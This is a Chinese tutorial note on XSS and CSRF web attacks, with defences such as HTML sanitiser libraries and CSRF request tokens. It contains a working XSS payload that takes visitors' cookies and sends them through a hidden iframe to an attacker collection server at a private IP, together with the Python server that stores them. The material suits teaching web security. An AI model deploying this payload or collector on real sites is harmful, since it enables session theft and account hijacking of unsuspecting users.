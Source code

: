 #  XSS 与 CSRF 两种跨站攻击

- XSS：跨站脚本（Cross-site scripting）

- CSRF：跨站请求伪造（Cross-site request forgery）

## XSS

>XSS 全称“跨站脚本”，是注入攻击的一种。其特点是不对服务器端造成任何伤害，而是通过一些正常的站内交互途径，  
例如发布评论，提交含有 JavaScript 的内容文本。  
这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本。 

- 也可以是盗号或者其他未授权的操作——我们来模拟一下这个过程，先建立一个用来收集信息的服务器：
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

"""
跨站脚本注入的信息收集服务器
"""

import bottle

app = bottle.Bottle()
plugin = bottle.ext.sqlite.Plugin(dbfile='/var/db/myxss.sqlite')
app.install(plugin)

@app.route('/myxss/')
def show(cookies, db):
    SQL = 'INSERT INTO "myxss" ("cookies") VALUES (?)'
    try:
        db.execute(SQL, cookies)
    except:
        pass
    return ""

if __name__ == "__main__":
    app.run()
```
- 在某一个页面的评论中注入这段代码：

// 用 <script type="text/javascript"></script> 包起来放在评论中
```
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```
于是每个访问到含有该评论的页面的用户都会遇到麻烦——他们不知道背后正悄悄的发起了一个请求，是他们所看不到的。

而这个请求，会把包含了他们的帐号和其他隐私的信息发送到收集服务器上。

- 这里附上一些“白名单”消毒 HTML 标签和属性（Sanitize HTML）的开源解决方案
- Python: [lxml.html.clean](http://lxml.de/lxmlhtml.html#cleaning-up-html) / [bleach](https://github.com/jsocol/bleach)
- Ruby: [Sanitize](https://github.com/rgrove/sanitize/)
- JavaScript: [sanitize-html](https://github.com/punkave/sanitize-html)
- PHP: [htmlpurifier](http://htmlpurifier.org/)

## CSRF 冒充用户之手: CSRF 顾名思义，是伪造请求，冒充用户在站内的正常操作

>起初一直弄不清楚 CSRF 究竟和 XSS 有什么区别，后来才明白 CSRF 和 XSS 根本是两个不同维度上的分类。
XSS 是实现 CSRF 的诸多途径中的一条，但绝对不是唯一的一条。一般习惯上把通过 XSS 来实现的 CSRF 称为 XSRF。

CSRF 的全称是“跨站请求伪造”，而 XSS 的全称是“跨站脚本”

- 提高的一个门槛，就是改良站内 API 的设计。对于发布帖子这一类创建资源的操作，应该只接受 POST 请求，而 GET 请求应该只浏览而不改变服务器端资源。  
当然，最理想的做法是使用REST 风格 [2] 的 API 设计，GET、POST、PUT、DELETE 四种请求方法对应资源的读取、创建、修改、删除。  
现在的浏览器基本不支持在表单中使用 PUT 和 DELETE 请求方法，我们可以使用 ajax 提交请求（例如通过 jquery-form 插件，我最喜欢的做法），  
也可以使用隐藏域指定请求方法，然后用 POST 模拟 PUT 和 DELETE （Ruby on Rails 的做法）。  
这么一来，不同的资源操作区分的非常清楚，我们把问题域缩小到了非 GET 类型的请求上——攻击者已经不可能通过发布链接来伪造请求了，  
但他们仍可以发布表单，或者在其他站点上使用我们肉眼不可见的表单，在后台用 js 操作，伪造请求。  

- 方法就是“请求令牌”

## 参考资料
- https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/
- https://juejin.im/post/5bc009996fb9a05d0a055192
- https://juejin.im/post/5bad9140e51d450e935c6d64
- [Web前后端漏洞分析与防御-知识梳理](https://github.com/TYRMars/WebSafe-StepPitGuide)
